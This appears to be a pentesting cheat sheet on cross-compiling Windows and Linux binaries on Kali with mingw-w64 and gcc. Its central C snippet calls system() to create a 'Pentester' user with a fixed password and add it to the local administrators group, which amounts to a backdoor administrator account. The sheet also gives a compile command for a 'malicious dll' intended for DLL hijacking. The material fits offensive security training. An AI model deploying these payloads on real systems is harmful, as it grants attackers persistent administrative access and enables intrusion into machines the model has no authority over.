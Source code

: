 # X-Compiling binaries on kali

## Get cross-compiler for windows

`apt install mingw-w64 `


```c
#include <stdlib.h>

int main ()
{
  int i;
  
  // i for debugging
  i = system ("net user Pentester Password1 /add");
  i = system ("net localgroup administrators Pentester /add");
  
  return 0;
}
```

cross compile for 32 bit
	
`i686-w64-mingw32-gcc foo.c -o foo.exe`


cross compile for 64 bits
	
`x86_64-w64-mingw32-gcc foo.c -o foo.exe`
	
List compilation options
	
	apt-cache search mingw-w64
	
Compile malicious dll

`x86_64-w64-mingw32-gcc windows_dll.c --shared -o hijackme.dll`

## For Linux

Use another box or directly on kali

if doesn't compile, for older machines add : `-static -static-libgcc -static-libstdc++`

```bash
#For x64 bit:

gcc -m64 hello.c -o exploit

#For x32 bit:

gcc -m32 hello.c -o exploit
```